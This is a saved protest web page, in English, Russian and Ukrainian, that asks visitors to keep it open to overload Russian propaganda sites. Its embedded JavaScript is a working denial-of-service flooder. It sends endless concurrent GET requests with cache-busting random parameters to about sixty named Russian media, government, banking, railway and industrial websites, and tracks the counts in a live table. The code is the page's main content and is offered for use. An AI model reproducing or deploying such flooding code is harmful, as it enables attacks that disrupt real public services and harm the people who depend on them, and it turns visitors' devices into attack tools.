 
<!-- saved from url=(0115)https://stop-russian-desinformation.near.page/?fbclid=IwAR3oGkmLuaiwsj3dVTICCsjmkrypcfv43S4ZluSWSMMUqeYZ0PlN94qrDyI -->
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
  
  <title>russia MUST BE STOPPED!</title>
</head>
<body data-new-gr-c-s-check-loaded="14.1050.0" data-gr-ext-installed="">
  <h1>Russia MUST BE STOPPED! Help Ukraine WIN!</h1>
  <table width="100%">
    <tbody><tr>
      <td width="30%">
        <h3>English version</h3>
        <p>The "official" news in the Russian Federation is mostly fake and we believe it is
            better to shut them down and let people switch to trustful news.</p>
        <p>Please, just open this page and let it be open on your devices. It will flood the
            Russian propaganda websites and pose a huge load on their infrastructure.</p>
        <p>Your browser will be slow. It's ok, don't worry and keep it run.</p>
        <p>A small contribution from each of us will save Ukraine 🙏</p>
      </td>
      <td width="30%">
        <h3>Русская версия</h3>
        <p>«Официальные» новости в РФ полны пропаганды и транслируют лживую информацию о
            событиях на Украине. Мы считаем, что лучше их закрыть и позволить людям
            переключиться на достоверные новости.</p>
        <p>Пожалуйста, откройте эту страницу на ваших устройствах. Это зальёт российские
            пропагандистские сайты запросами и создаст огромную нагрузку на их
            инфраструктуру.</p>
        <p>Ваш браузер будет работать медленно. Все в порядке, не волнуйтесь и держите его
            открытым.</p>
        <p>Небольшой вклад каждого из нас спасет Украину 🙏</p>
      </td>
      <td width="30%">
        <h3>Українська версія</h3>
        <p>«Офіційні» новини в РФ сповнені пропаганди та транслюють брехливу інформацію про
            події в Україні. Ми вважаємо, що краще їх закрити та дозволити людям переключитися
            на достовірні новини.</p>
        <p>Будь ласка, відкрийте цю сторінку на вашому пристрої. Це закидає російські
            пропагандистські сайти запитами та створить величезне навантаження на їхню
            інфраструктуру.</p>
        <p>Ваш браузер працюватиме повільно. Все гаразд, не хвилюйтеся та тримайте його
            відкритим.</p>
        <p>Невеликий внесок кожного з нас врятує Україну 🙏</p>
      </td>
    </tr>
   </tbody></table>
   <div id="stats"><table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th></tr></thead><tbody><tr><td>https://lenta.ru/</td><td>0</td><td>0</td></tr><tr><td>https://ria.ru/</td><td>0</td><td>0</td></tr><tr><td>https://ria.ru/lenta/</td><td>0</td><td>0</td></tr><tr><td>https://www.rbc.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.rt.com/</td><td>0</td><td>0</td></tr><tr><td>http://kremlin.ru/</td><td>0</td><td>1157</td></tr><tr><td>http://en.kremlin.ru/</td><td>0</td><td>0</td></tr><tr><td>https://smotrim.ru/</td><td>0</td><td>0</td></tr><tr><td>https://tass.ru/</td><td>0</td><td>0</td></tr><tr><td>https://tvzvezda.ru/</td><td>0</td><td>0</td></tr><tr><td>https://vsoloviev.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.1tv.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.vesti.ru/</td><td>0</td><td>0</td></tr><tr><td>https://online.sberbank.ru/</td><td>0</td><td>0</td></tr><tr><td>https://sberbank.ru/</td><td>0</td><td>0</td></tr><tr><td>https://zakupki.gov.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.gosuslugi.ru/</td><td>0</td><td>0</td></tr><tr><td>https://er.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.rzd.ru/</td><td>0</td><td>0</td></tr><tr><td>https://rzdlog.ru/</td><td>0</td><td>0</td></tr><tr><td>https://vgtrk.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.interfax.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.mos.ru/uslugi/</td><td>0</td><td>0</td></tr><tr><td>http://government.ru/</td><td>0</td><td>0</td></tr><tr><td>https://mil.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.nalog.gov.ru/</td><td>0</td><td>0</td></tr><tr><td>https://customs.gov.ru/</td><td>0</td><td>0</td></tr><tr><td>https://pfr.gov.ru/</td><td>0</td><td>0</td></tr><tr><td>https://rkn.gov.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.gazprombank.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.vtb.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.gazprom.ru/</td><td>0</td><td>0</td></tr><tr><td>https://lukoil.ru</td><td>0</td><td>0</td></tr><tr><td>https://magnit.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.nornickel.com/</td><td>0</td><td>0</td></tr><tr><td>https://www.surgutneftegas.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.tatneft.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.evraz.com/ru/</td><td>0</td><td>0</td></tr><tr><td>https://nlmk.com/</td><td>0</td><td>0</td></tr><tr><td>https://www.sibur.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.severstal.com/</td><td>0</td><td>0</td></tr><tr><td>https://www.metalloinvest.com/</td><td>0</td><td>0</td></tr><tr><td>https://nangs.org/</td><td>0</td><td>0</td></tr><tr><td>https://rmk-group.ru/ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.tmk-group.ru/</td><td>0</td><td>0</td></tr><tr><td>https://ya.ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.polymetalinternational.com/ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.uralkali.com/ru/</td><td>0</td><td>0</td></tr><tr><td>https://www.eurosib.ru/</td><td>0</td><td>0</td></tr><tr><td>https://ugmk.ua/</td><td>0</td><td>0</td></tr><tr><td>https://omk.ru/</td><td>0</td><td>0</td></tr></tbody></table></div>

<script>
var targets = {
  'https://lenta.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://ria.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://ria.ru/lenta/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.rbc.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.rt.com/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'http://kremlin.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'http://en.kremlin.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://smotrim.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://tass.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://tvzvezda.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://vsoloviev.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.1tv.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.vesti.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://online.sberbank.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://sberbank.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://zakupki.gov.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.gosuslugi.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://er.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.rzd.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://rzdlog.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://vgtrk.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.interfax.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.mos.ru/uslugi/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'http://government.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://mil.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.nalog.gov.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://customs.gov.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://pfr.gov.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://rkn.gov.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.gazprombank.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.vtb.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.gazprom.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://lukoil.ru': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://magnit.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.nornickel.com/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.surgutneftegas.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.tatneft.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.evraz.com/ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://nlmk.com/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.sibur.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.severstal.com/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.metalloinvest.com/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://nangs.org/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://rmk-group.ru/ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.tmk-group.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://ya.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.polymetalinternational.com/ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.uralkali.com/ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.eurosib.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://ugmk.ua/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://omk.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://api.developer.sber.ru/product/SberbankID': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://www.mid.ru/': { number_of_requests: 0, number_of_errored_responses: 0 },
  'https://mail.rkn.gov.ru': {number_of_requests: 0, number_of_errored_responses : 0},
  'https://cloud.rkn.gov.ru': {number_of_requests: 0, number_of_errored_responses : 0},
  'https://mvd.gov.ru': {number_of_requests: 0, number_of_errored_responses : 0},
  'https://pwd.wto.economy.gov.ru':  {number_of_requests: 0, number_of_errored_responses : 0},
  'https://stroi.gov.ru': {number_of_requests: 0, number_of_errored_responses : 0},
  'https://proverki.gov.ru': {number_of_requests: 0, number_of_errored_responses : 0},
}

var statsEl = document.getElementById('stats');
function printStats() {
  statsEl.innerHTML = '<table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th></tr></thead><tbody>' + Object.entries(targets).map(([target, { number_of_requests, number_of_errored_responses  }]) => '<tr><td>' + target + '</td><td>' + number_of_requests + '</td><td>' + number_of_errored_responses + '</td></tr>').join('') + '</tbody></table>'
}
setInterval(printStats, 1000);

var CONCURRENCY_LIMIT = 1000
var queue = []

async function fetchWithTimeout(resource, options) {
  const controller = new AbortController();
  const id = setTimeout(() => controller.abort(), options.timeout);
  return fetch(resource, {
    method: 'GET',
    mode: 'no-cors',
    signal: controller.signal
  }).then((response) => {
    clearTimeout(id);
    return response;
  }).catch((error) => {
    clearTimeout(id);
    throw error;
  });
}

async function flood(target) {
  for (var i = 0;; ++i) {
    if (queue.length > CONCURRENCY_LIMIT) {
      await queue.shift()
    }
    rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
    queue.push(
      fetchWithTimeout(target+rand, { timeout: 1000 })
        .catch((error) => {
          if (error.code === 20 /* ABORT */) {
            return;
          }
          targets[target].number_of_errored_responses++;
        })
        .then((response) => {
          if (response && !response.ok) {
            targets[target].number_of_errored_responses++;
          }
          targets[target].number_of_requests++;
        })

    )
  }
}

// Start
Object.keys(targets).map(flood)
</script>

</body>
